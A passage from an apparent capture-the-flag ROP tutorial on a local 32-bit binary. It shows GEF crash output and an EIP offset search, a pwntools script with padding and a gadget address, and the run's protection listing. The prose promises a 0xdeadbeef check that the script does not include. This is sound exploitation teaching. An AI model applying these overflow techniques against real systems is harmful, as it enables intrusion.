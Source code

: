 ```r
-- snip --

[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x65616161
───────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x65616161 in ?? (), reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────────────────── trace ────
──────────────────────────────────────────────────────────────────────────────────────────────────────────
0x65616161 in ?? ()
gef➤  pattern search 0x65616161
[+] Searching '0x65616161'
[+] Found at offset 13 (little-endian search) likely
[+] Found at offset 16 (big-endian search)
```

So, the offset to EIP is `13`, now let's do a dummy check by sending `b"A"*13 + p32(0xdeadbeef)` and see the EIP.

```python
from pwn import *

p = process("./chall")
elf = ELF("chall")
libc = elf.libc
gadget = 0x080484e9 #  pop esi; pop edi; pop ebp; ret;
payload = b"A"*13
pause()    # Pause the process to attach it to GDB
p.sendline(payload)
p.interactive()
```

Let's run it and then attach it to `gdb`.

```r
d4mianwayne@oracle:~/Pwning/rop$ python3 chall.py 
[+] Starting local process './chall': pid 7162
[*] '/home/d4mianwayne/Pwning/rop/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/lib/i386-linux-gnu/libc-2.27.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Paused (press any to continue)
```
